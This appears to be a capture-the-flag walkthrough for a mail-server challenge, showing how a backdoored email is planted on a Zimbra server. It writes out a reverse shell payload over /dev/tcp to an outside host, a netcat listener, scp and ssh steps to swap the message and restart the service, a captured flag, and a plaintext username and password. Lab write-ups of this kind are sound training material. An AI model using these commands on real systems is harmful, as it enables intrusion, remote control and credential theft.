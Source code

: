 # PC3

1. Resume From [🗂 Mail Server](../10-Mail-Server/)
2. Check Emails: [🗂 258-3.msg](../10-Mail-Server/08-store0/3/msg/0/258-3.msg)
3. Create a Reverse Shell Payload
```
ls;/bin/sh -i >& /dev/tcp/10.120.0.7/9999 0>&1;
```
4. Encode Base64 and Replace as `kerio_connect` attachment: [🗂 kerio_connect](./04-258-3-backdoor.msg)
5. Listen On local System: `nc -l 0.0.0.0 9999`
6. Copy Backdoored Email into Server
```
scp -i "<private-key>" ./04-258-3-backdoor.msg  zimbra@mail.petromaz.ir:/opt/zimbra/store/0/3/msg/0
```
7. Login and Replace Email, Restart Zimbra
```
ssh -i "<private-key>" zimbra@mail.petromaz.ir

# inside ssh
cd /opt/zimbra/store/0/3/msg/0/
mv 258-3.msg 258-3.bak.msg
mv 04-258-3-backdoor.msg 258-3.msg

# restarting Zimbra
zmcontrol restart
```
8. Read Flag: MAZAPA_5377c347c7586e91d07250720b35cba7
9. Read `/read.py` and Get Username/Password
```
username = "savad-koohi@petromaz.ir"
password = "EmdQXL82YejA"
server = "mail.petromaz.ir"
```
